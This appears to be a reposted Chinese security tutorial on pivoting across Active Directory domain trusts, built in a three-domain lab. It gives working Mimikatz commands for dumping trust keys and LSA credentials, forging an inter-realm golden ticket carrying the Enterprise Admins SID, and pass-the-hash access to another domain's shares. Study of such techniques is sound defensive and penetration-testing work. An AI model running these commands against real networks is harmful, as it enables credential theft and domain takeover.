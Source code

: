 > 原文链接: https://www.anquanke.com//post/id/152382 


# 域之间渗透


                                阅读量   
                                **253276**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">4</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p5.ssl.qhimg.com/t01d6239ce3f23987ed.jpg)](https://p5.ssl.qhimg.com/t01d6239ce3f23987ed.jpg)

## 0x00 介绍

大一点企业或公司，都有自己的内网系统，有着各种防护的系统，流量审计，镜像等这些系统。然而这些都是在各种域下，不同部门也是存在不同的域环境，如果拿到一个域控，就可以进行其它域的渗透。这篇文章，先讲解下域之间的关系，在利用域关系进行下一步的渗透。



## 0x01 环境搭建
- windows 2012 (hack.com 192.168.199.151) 本文中称为A 域
- windows 2012 (child.hack.com 192.168.199.68) 本文中称为CA 域
- windows 2008 (localtest.com 192.168.199.129) 本文中称为B 域
A域与CA域是”within forest“ 关系，内部信任是可以传递，这里子域的信任搭建很简单，就不细说了，说一下子域的加入，在CA域的域控搭建完后，选择加入一个存在的域，然后其中有个DSRM 密码：[![](https://p0.ssl.qhimg.com/t013bb90ed3b17b4a2f.png)](https://p0.ssl.qhimg.com/t013bb90ed3b17b4a2f.png)

DSRM账户是域控的本地管理员账户，并非域的管理员帐户。所以DSRM密码同步之后并不会影响域的管理员帐户。 这里有一个[DSRM 持久化](http://drops.xmd5.com/static/drops/tips-9297.html) ，因为要修改注册表，我反正不喜欢用。

B域信任CA域，属于外部信任，不能传递信任关系，CA域可以访问B域中的资源，讲下这里的搭建过程：

在B域domain trusts设置外部信任后，CA域也会自动创建，可以参考[这里](https://dotblogs.com.tw/maduka/archive/2013/03/09/96042.aspx)：

[![](https://p2.ssl.qhimg.com/t011d40c372f9c459d4.png)](https://p2.ssl.qhimg.com/t011d40c372f9c459d4.png)

[![](https://p1.ssl.qhimg.com/t01c87fbca5809c3b6b.png)](https://p1.ssl.qhimg.com/t01c87fbca5809c3b6b.png)

信任创建完过后，还要设置相应的share文件夹及可以访问的组和用户，参考[这里](http://www.liangwei.cc/server_tech/windows_server_2008_chuang_jian_wai_bu_xin_ren.html)，说一下本环境的搭建：

1.WIN10 加入CA域。

2.建立一个全局的组GCB。

[![](https://p2.ssl.qhimg.com/t01126ab0c6c5858789.png)](https://p2.ssl.qhimg.com/t01126ab0c6c5858789.png)

3.在CA域建立一个IT OU，添加用户child-ita。

[![](https://p0.ssl.qhimg.com/t01ba62f33113c650e7.png)](https://p0.ssl.qhimg.com/t01ba62f33113c650e7.png)

4.在B域中建立一个本地share 组，把CA域的GCB添加到这里，这里添加的时候需要输入CA的用户名和密码验证。

[![](https://p3.ssl.qhimg.com/t01a85bec806b788498.png)](https://p3.ssl.qhimg.com/t01a85bec806b788498.png)

5.在B域的DC的C盘中建立一个share的分享文件夹，把share组的权限添加到当中。

[![](https://p3.ssl.qhimg.com/t012a6074f7bbc6a378.png)](https://p3.ssl.qhimg.com/t012a6074f7bbc6a378.png)

好了，这个外部的信任搭建完成，B信任CA域，所以在CA域的GCB的用户，可以访问在B域DC中share的文件夹内容。

这里没有那些VLAN划分，网络隔离这些东西了。我简单的域环境就搭建完成了。结构图如下：

[![](https://p2.ssl.qhimg.com/t0138354429db1d7842.png)](https://p2.ssl.qhimg.com/t0138354429db1d7842.png)



## 0x02 多个域之间关系

​ 这里涉及到kerberos 认证的过程，不清楚的可以看看我前面的文章。

​ 在client 通过AS 服务的验证过后，会得到这个client的TGT（TGT包含了当前client所属组及权限，还有其他林中域的组，例如：universal groups）。client利用TGT朝DC请求TGS，然后利用TGS向目标服务器请求访问资源。TGT的生命周期默认10小时，所以攻击者只要拿到KRBTGT的hash password就可以自己伪造签名TGT，这也就是mimikatz生成的黄金票据。这就是域的验证过程。

​ 在一个林中，CA域中的client要访问B域中的服务器的资源，先看下3个域的信任关系：

A域和CA域（就是A的子域）:

[![](https://p3.ssl.qhimg.com/t012953fbf0487dcf95.png)](https://p3.ssl.qhimg.com/t012953fbf0487dcf95.png)

B域：

[![](https://p2.ssl.qhimg.com/t015d5a7e93dd5cb50b.png)](https://p2.ssl.qhimg.com/t015d5a7e93dd5cb50b.png)

拥有多个域的大多数组织都需要用户访问位于不同域中的共享资源，并且信任允许具有多个域的组织授予不同域中的用户访问共享资源的权限。域林是相互信任的域容器的集合。森林本身也可能在它们之间有信任。内部信任具有传递关系，A信任B，B信任C，所以A也是信任C的，但是外部信任不能传递。

从下图看下在不同域的访问过程：[![](https://p4.ssl.qhimg.com/t0120e4c824388d41b8.png)](https://p4.ssl.qhimg.com/t0120e4c824388d41b8.png)

在两个域互相信任过后，会有一个信任密码及在每个域中注册一个`ticket-granting` 服务，用来提供跨域的服务。在上图可以看见蓝色的第4步，得到inter-realm(由域之间信任密码生成)的加密和签名的TGT，向另一个域DC请求TGS，绿色域DC使用信任密码验证通过后，生成了客户端要访问的绿色应用服务器的TGS票据。

​ Gold Ticket中默认包含了Enterprise Admin 组的关系，而Enterprise Admin又是AD域中Administrator 组的成员。在其中还涉及到了sidHistory和SID过滤安全机制，所以攻击者可以伪造kerberos 票据来获取到域中的Enterprise Admin权限。所以下面我就来介绍下，如何利用Mimikatz 伪装 域信任票据。



## 0x03 域之间渗透

1.伪造内部信任AD林中的信任票据

​ 我这里是在子域下的一个普通用户，目标利用伪造trust key来获取AD的访问权限：

[![](https://p1.ssl.qhimg.com/t018783882aec62db34.png)](https://p1.ssl.qhimg.com/t018783882aec62db34.png)

​ 1)先利用mimikatz 在域控dump出来的数据`privilege::debug` `lsadump::trust /patch` ：

[![](https://p5.ssl.qhimg.com/t011518a1d908a7a9da.png)](https://p5.ssl.qhimg.com/t011518a1d908a7a9da.png)

[![](https://p4.ssl.qhimg.com/t01bab304c470207cb6.png)](https://p4.ssl.qhimg.com/t01bab304c470207cb6.png)

​ 2)在利用trust key 来伪造凭证是属于EA组的，用户名可以随便填写：

`kerberos::golden /domain:child.hack.com /sid:S-1-5-21-840356815-2954379092-972630321 /sids:S-1-5-21-1863527717-1245757989-2975568438-519 /krbtgt:ac51f0ddaf0246a556f1978dd12d2a0f /user:hack$ /ptt`

[![](https://p1.ssl.qhimg.com/t0193743d9c3555b96f.png)](https://p1.ssl.qhimg.com/t0193743d9c3555b96f.png)

​ 解释下这些参数怎么获取：

​ domain:当前子域，sid:当前子域SID，sids:信任域的SID，也就是父域，krbtgt:当前域的krbtgt的值，user是trust account，不确定可以使用dcsync在看下。

[![](https://p5.ssl.qhimg.com/t01699afcf0b70e19f7.png)](https://p5.ssl.qhimg.com/t01699afcf0b70e19f7.png)

​ 3)misc::cmd弹出CMD窗口，你也可以导出成Ticket，在导入来获取权限。[![](https://p1.ssl.qhimg.com/t017e23bf309d47c74a.png)](https://p1.ssl.qhimg.com/t017e23bf309d47c74a.png)

2.访问信任域中的资源

​ 1) 在CA域的DC中，mimikatz 执行`privilege::debug` `lsadump::lsa /patch` 先获取到可以访问B域用户的ntlm

​ 2) `sekurlsa::pth /user:child-ita /domain:child.hack.com /ntlm:e45a314c664d40a227f9540121d1a29d /run:powershell.exe` 利用信任的用户NTLM，访问B域上的分享文件夹。

[![](https://p2.ssl.qhimg.com/t014d6424c83667e49c.png)](https://p2.ssl.qhimg.com/t014d6424c83667e49c.png)



## 0x04 总结

本文先大概的介绍了域信任的关系，解释了其中用户组认证时的过程，以及涉及到的安装过程。并且利用mimikatz 在不同的信任关系下来利用用户的NTLM伪造和签名trusts ticket来获取域上的资源。在外部的信任中，只有在信任域中的组中的那些被信任域用户，才能访问到信任域中有指定权限的分享文件夹。所以在拿到域控权限的时候，`lsadump::lsa /inject` `lsadump::trust /patch`这个命令是一定要有的。

审核人：yiwang   编辑：边边
